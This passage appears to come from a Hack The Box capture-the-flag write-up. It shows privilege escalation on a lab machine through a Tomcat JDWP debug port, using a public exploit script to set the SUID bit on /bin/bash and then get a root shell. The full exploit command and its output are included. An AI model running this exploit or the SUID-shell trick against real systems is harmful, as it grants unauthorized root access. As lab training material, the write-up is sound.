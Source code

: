I did some port forwarding and saw that port 8080 is running the Tomcat manager but I was not able to log in using any of the default credentials.

![](/assets/images/htb-writeup-ai/tomcat.png)

Then I noticed that the Tomcat server has the JDWP option enabled: `jdwp=transport=dt_socket,address=localhost:8000,server=y`

```
/usr/bin/java -Djava.util.logging.config.file=/opt/apache-tomcat-9.0.27/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager 
-Djdk.tls.ephemeralDHKeySize=2048 -Djava.protocol.handler.pkgs=org.apache.catalina.webresources -Dorg.apache.catalina.security.SecurityListener.UMASK=0027 
-agentlib:jdwp=transport=dt_socket,address=localhost:8000,server=y,suspend=n -Dignore.endorsed.dirs= -classpath /opt/apache-tomcat-9.0.27/bin/bootstrap.jar:/opt/
apache-tomcat-9.0.27/bin/tomcat-juli.jar -Dcatalina.base=/opt/apache-tomcat-9.0.27 -Dcatalina.home=/opt/apache-tomcat-9.0.27 -Djava.io.tmpdir=/opt/apache-tomcat-9.0.27/temp 
org.apache.catalina.startup.Bootstrap start
```

I used the [https://www.exploit-db.com/exploits/46501](https://www.exploit-db.com/exploits/46501) exploit to get RCE as root. I chose to make `/bin/bash` SUID so I could just get a shell directly by using `bash -p`. I need to trigger a connection to port 8005 locally on the machine after I've launched the exploit.

```
root@kali:~/htb/ai# python jdwp.py -t 127.0.0.1 -p 8000 --cmd 'chmod u+s /bin/bash'
[+] Targeting '127.0.0.1:8000'
[+] Reading settings for 'OpenJDK 64-Bit Server VM - 11.0.4'
[+] Found Runtime class: id=bc4
[+] Found Runtime.getRuntime(): id=7fe7f003e960
[+] Created break event id=2
[+] Waiting for an event on 'java.net.ServerSocket.accept'
[+] Received matching event from thread 0xc69
[+] Selected payload 'chmod u+s /bin/bash'
[+] Command string object created id:c6a
[+] Runtime.getRuntime() returned context id:0xc6b
[+] found Runtime.exec(): id=7fe7f003e998
[+] Runtime.exec() successful, retId=c6c
[!] Command successfully executed
```

```
alexa@AI:~$ /bin/bash -p
bash-4.4# id
uid=1000(alexa) gid=1000(alexa) euid=0(root) groups=1000(alexa)
bash-4.4# cat /root/root.txt
0ed04f2...
```